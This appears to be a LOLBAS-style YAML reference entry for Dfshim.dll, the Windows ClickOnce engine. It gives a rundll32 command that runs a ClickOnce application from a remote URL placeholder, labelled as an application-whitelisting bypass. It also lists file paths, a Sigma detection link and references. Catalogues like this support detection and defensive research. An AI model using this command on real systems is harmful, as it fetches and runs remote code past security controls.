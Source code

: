 ```yaml
---
Name: Dfshim.dll
Description: ClickOnce engine in Windows used by .NET
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: rundll32.exe dfshim.dll,ShOpenVerbApplication {REMOTEURL}
    Description: Executes click-once-application from URL (trampoline for Dfsvc.exe, DotNet ClickOnce host)
    Usecase: Use binary to bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: ClickOnce
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

